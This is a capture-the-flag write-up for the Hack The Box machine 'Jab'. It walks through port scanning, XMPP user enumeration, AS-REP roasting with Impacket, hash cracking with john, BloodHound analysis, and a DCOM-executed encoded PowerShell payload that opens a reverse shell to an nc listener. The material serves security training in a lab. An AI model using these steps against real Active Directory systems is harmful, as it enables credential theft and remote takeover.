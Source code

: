 ![Jab](https://github.com/amalcew/htb-writeups/assets/73908014/cb89fa9a-f89d-4580-aa09-957fca449262)

## Reconnaissance & port scanning

Starting with basic enumeration in nmap: 

```bash
nmap 10.10.11.4    
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-24 12:34 CEST
Nmap scan report for jab.htb (10.10.11.4)
Host is up (0.024s latency).
Not shown: 984 closed tcp ports (conn-refused)
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
5222/tcp open  xmpp-client
5269/tcp open  xmpp-server
7070/tcp open  realserver
7443/tcp open  oracleas-https
7777/tcp open  cbt

Nmap done: 1 IP address (1 host up) scanned in 0.51 seconds
```

The target has multiple open ports including ports used by `xmpp` server and client. XMPP is a message protocol standard - on Linux, one of the clients that allow to connect to the server ant utilize the standard is called **Pidgin**

Once the Pidgin is installed, we can try to connect to the target and register account:

![01-initial](https://github.com/amalcew/htb-writeups/assets/73908014/c2aa6c56-7781-4077-b654-301375f0e9ee)

![02-register](https://github.com/amalcew/htb-writeups/assets/73908014/c30f04d5-87ab-49a6-9612-6d8a250942c6)

After registration, we can get a room list:

![03-room_list](https://github.com/amalcew/htb-writeups/assets/73908014/ad741a3b-b3dc-44ff-8bc1-716cd9912d47)

![04-room_list2](https://github.com/amalcew/htb-writeups/assets/73908014/f17486a9-b299-45cd-9229-34e6ed0629b1)

There are two rooms, one that is accessible and one that cannot be connected to. Further enumeration of the service leads to AD user enumeration:

![05-user_enum](https://github.com/amalcew/htb-writeups/assets/73908014/8b005496-064a-4efc-bfbd-d2f334412279)

Running this query will return all users:

![06-user_enum2_defaced](https://github.com/amalcew/htb-writeups/assets/73908014/96125387-88b6-46d8-9542-7c3ceae32a31)

Running the `pidgin -d` it is possible to retrieve text-based results of the query, that will be handy during the initial foothold.

![07-user_enum3_defaced](https://github.com/amalcew/htb-writeups/assets/73908014/4edd57e7-3696-48a6-bc36-6d4e908055eb)

## Initial foothold

### AS-REP Roasting

As the target machinhe runs Kerberos, it is obvious that it utilizes some kind of Active Directory mechanic. Having the results of user enumeration query stored as .xml, it is possible to retrieve only usernames, using simple Python script:

```python
#!/usr/bin/python

import re

pattern = re.compile(r'<value>([a-zA-Z0-9_.+-]+@[a-zA-Z0-9-]+\.[a-zA-Z0-9-.]+)</value>')
file_path = 'users.xml'

emails = []
with open(file_path, 'r', encoding='utf-8') as file:
    while True:
        chunk = file.read(1024 * 1024)  # Read 1 MB at a time
        if not chunk:
            break
        emails.extend(pattern.findall(chunk))

with open('users_filtered.txt', 'w') as file:
    for email in list(set(emails)):
        file.write(f"{email.split('@jab.htb')[0]}\n")
```

Having the username list, I've run AS-REP roasting attack against the Kerberos:

```bash
> python GetNPUsers.py jab.htb/ -usersfile users_filtered.txt -format hashcat -outputfile hashes.asreproast
Impacket v0.11.0 - Copyright 2023 Fortra

[-] User ***** doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User ***** doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User ***** doesn't have UF_DONT_REQUIRE_PREAUTH set

... SNIP ...

[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
$krb5asrep$23$******@JAB.HTB:be83...SNIP...6c06
[-] User ***** doesn't have UF_DONT_REQUIRE_PREAUTH set

... SNIP ...
```

One of the retrieved hash is crackable:

```john
> john --wordlist=/usr/share/wordlists/rockyou.txt hashes.asreproast 
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
M*********1     ($krb5asrep$23$**********@JAB.HTB)     
1g 0:00:00:13 DONE (2024-06-24 13:06) 0.07457g/s 1069Kp/s 2946Kc/s 2946KC/s !!12Honey..*7¡Vamos!
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Using this password, we can log in as the user `jmontgomery`. After scanning for the available rooms, we discover a room called `pentest2003`:

![08-additional_room](https://github.com/amalcew/htb-writeups/assets/73908014/ed75a470-7486-456c-8a16-476ba7ae5e65)

Further inspection of the chat discloses a account named `svc_openfire` and hash-password value of the account.

![09-svc_openfire_defaced](https://github.com/amalcew/htb-writeups/assets/73908014/03045c37-0e5c-407d-ab63-a8c6dc26f354)

### ExecuteDCOM

As we have the password of the service account, we can try to enumerate the Active Directory, by using `bloodhound-python` ingestor:

```bash
bloodhound-python -u 'svc_openfire' -p '*******' -d jab.htb -dc DC01.jab.htb -c all -ns 10.10.11.4
```

And analyze the results of the enumeration inside `Bloodhound`:

![10-bloodhound](https://github.com/amalcew/htb-writeups/assets/73908014/802476a2-d734-4985-ad57-998a17040508)

As we can see, we can exploit the `ExecuteDCOM` functionality of the target machine, which will allow us to gain reverse shell on the target.

After crafting the payload, we are ready to go:

```bash
> python dcomexec.py -object MMC20 jab.htb/svc_openfire:'*******'@10.10.11.4 'cmd.exe /c powershell -e JABjAGwA...SNIP...KAApAA==' -silentcommand
Impacket v0.11.0 - Copyright 2023 Fortra
```

```bash
> nc -lnvp 1234  
listening on [any] 1234 ...
connect to [xx.xx.xx.xx] from (UNKNOWN) [10.10.11.4] 51723
whoami
jab\svc_openfire
PS C:\windows\system32>
```

Acquired user flag :
```
PS C:\Users\svc_openfire\Desktop> ls


    Directory: C:\Users\svc_openfire\Desktop


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-ar---        6/24/2024  12:01 AM             34 user.txt                                                              


PS C:\Users\svc_openfire\Desktop> type user.txt 
818a************************04d8
```
